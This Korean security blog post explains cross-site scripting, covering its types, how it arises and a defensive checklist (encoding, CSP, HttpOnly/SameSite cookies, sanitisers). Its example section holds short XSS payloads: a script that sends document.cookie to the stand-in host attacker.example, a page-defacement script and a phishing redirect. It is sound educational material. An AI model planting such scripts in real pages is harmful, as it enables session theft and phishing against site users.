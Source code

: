 ```yaml
---
title: "[Infosec] Cross-Site Scripting (XSS) 완전 정리"
date: 2025-09-10 20:10:00 +0900
categories: [보안, Web]   # 카테고리는 여러 계층도 가능 [상위, 하위]
tags: [웹해킹, XSS]          # 해시태그처럼 글 묶기
description: "인증정보 탈취 작전"
toc: true
---
```


# 가장 단순하지만 여전히 강력한 웹 공격 수단

---

> 이 글은 **보안 학습/방어 목적**입니다. 실습은 **본인 로컬/테스트 환경**에서만 하세요.

## XSS란?

**XSS(Cross-Site Scripting)** 는 웹 페이지에 악성 스크립트(보통 JavaScript)가 주입되어 **피해자의 브라우저에서 실행**되는 취약점이다.  
주로 “사용자가 입력한 값을 다시 출력”하는 기능에서 발생한다. (예: 로그인 후 “안녕하세요, 00님”)  

**SOP(Same-Origin Policy)** 때문에 임의의 출처의 민감한 데이터는 바로 읽기 어렵지만,  
스크립트가 **피해 사이트의 Origin 권한**으로 실행되기 때문에 **그 Origin의 권한 범위 안에서는 강력**하다.  
(예: 해당 사이트의 쿠키 접근, DOM 변조, 사용자의 클릭 유도 등)

---

## 언제 생기나? (간단 원리)

1. **입력(Input)**: 댓글/검색어/프로필 등 사용자가 넣는 값  
2. **처리(Process)**: 서버 또는 클라이언트(JS)에서 값 가공  
3. **출력(Output)**: HTML/속성/URL/스크립트 등 **맥락(Context)** 에 그대로 넣어 렌더링  
4. **실행(Execute)**: 브라우저가 그 값을 **코드로 해석**하면 XSS 발생

> 특히 **출력 맥락**(HTML 본문, 속성, JavaScript literal, URL, 스타일 등)에 맞는 **인코딩**이 안 되면 취약해진다.

---

## XSS 종류

| 종류 | 설명 |
|---|---|
| **Stored XSS** | 악성 스크립트가 **서버에 저장**되고, 다른 사용자가 페이지를 열 때 **응답에 포함**되어 실행됨. (예: 댓글/게시글에 삽입) |
| **Reflected XSS** | 악성 입력이 **요청 파라미터**에 들어오고, 서버가 그대로 **응답에 반사**해서 실행됨. (예: 검색 결과 페이지) |
| **DOM-based XSS** | 서버 응답이 아니라, **브라우저 내 JS가 DOM을 조작**하면서 발생. (예: `location.hash` 등을 `innerHTML`에 삽입) |
| **Universal XSS(UXSS)** | **브라우저/플러그인 자체**의 취약점으로 SOP를 우회해 스크립트가 실행되는 케이스. (앱·엔진 취약점 이슈) |

---

## 예제 코드 (학습용 / 안전 도메인 사용)

> 예제의 외부 주소는 **테스트 전용 도메인**으로 바꿨다: `https://attacker.example`  
> (※ `.example` TLD는 문서/예시에 쓰라고 예약된 도메인)

### 1) 쿠키/세션 탈취 시도 (학습용)
```html
<script>
// 데모: 현재 페이지의 쿠키 확인
alert(document.cookie);

// 단순 exfiltration 패턴 (이미지 요청으로 전송)
new Image().src = "https://attacker.example/collect?cookie=" + encodeURIComponent(document.cookie);
</script>
```
> 방어 팁: **HttpOnly 쿠키**면 `document.cookie`로 읽히지 않는다. `Secure`, `SameSite`도 함께 설정.

### 2) 페이지 변조
```html
<script>
// DOM 변조 (예: 내용 바꾸기)
document.write("Hacked by Demo!"); // 실제 서비스에선 미사용 권장
</script>
```
> 방어 팁: `document.write`, `innerHTML` 대신 **`textContent` / 안전한 템플릿** 사용.

### 3) 위치 이동(피싱 유도)
```html
<script>
// 피싱 페이지로 이동 (새 창 열기 포함)
location.href = "https://attacker.example/phishing";
window.open("https://attacker.example/");
</script>
```
> 방어 팁: 외부 링크는 **rel="noopener noreferrer"**, 사용자 확인(예: 중간 경고), URL 화이트리스트 등.

---

## SOP와 XSS의 관계, 그리고 왜 위험한가

- **SOP**는 “다른 출처의 응답 **읽기**”를 막는다.  
- 그러나 XSS는 **현재 페이지의 출처 권한**으로 실행되기 때문에, 그 **출처의 쿠키/DOM/요청**에는 접근 가능하다.  
- 그래서 공격자는 `https://attacker.example`로 **요청을 보내는 방식**(이미지/fetch 등)으로 데이터를 외부로 **유출**한다.

---

## 방어 전략 (현업 체크리스트)

### 1) 출력 인코딩(Output Encoding)
- 맥락별로 맞춤 인코딩:  
  - **HTML 본문** → HTML 엔코딩  
  - **HTML 속성** → 속성 엔코딩  
  - **URL/쿼리** → URL 엔코딩  
  - **JS literal** → JS 문자열 이스케이프  
- 프레임워크의 **기본 자동 이스케이프**를 끄지 말 것.

### 2) 입력 검증(Input Validation)
- 허용 목록(Whitelist) 기준으로 길이/문자/패턴 제한
- HTML을 허용해야 한다면 **DOMPurify** 같은 **화이트리스트 기반 Sanitizer** 사용

### 3) 안전한 DOM API 사용
- `innerHTML`, `document.write` 지양 → **`textContent`, `setAttribute`** 등 사용
- 사용자 입력을 **스크립트/이벤트 핸들러 속성**에 절대 직접 연결하지 말 것

### 4) 쿠키 보안
- **HttpOnly**: JS에서 쿠키 접근 차단  
- **Secure**: HTTPS에서만 전송  
- **SameSite**: 크로스 사이트 쿠키 전송 제한 (CSRF/XSS 조합 공격 완화)

### 5) **CSP(Content Security Policy)**
- 기본 정책: `script-src 'self'` + **nonce/sha256 기반** 인라인 허용  
- 단계적 도입: `Content-Security-Policy-Report-Only`로 **로그부터** 수집  
- **Trusted Types**(지원 브라우저): DOM XSS를 구조적으로 차단

### 6) 기타
- 템플릿 엔진의 **자동 escaping** 유지  
- 서드파티 스크립트 최소화/무결성(`integrity` 속성)  
- SRI, Subresource Integrity 적용  
- 린트/테스트(정적 분석, 동적 스캐너)로 **릴리즈 전 자동 점검**

---

## 요약

- XSS는 “**사용자 입력이 코드로 해석**되는 순간” 발생한다.  
- **Stored / Reflected / DOM-based / UXSS** 네 가지 관점으로 이해할 것.  
- 방어의 핵심은 **맥락별 인코딩**, **안전한 DOM 사용**, **CSP + HttpOnly/SameSite 쿠키**, **입력 검증/정화**다.
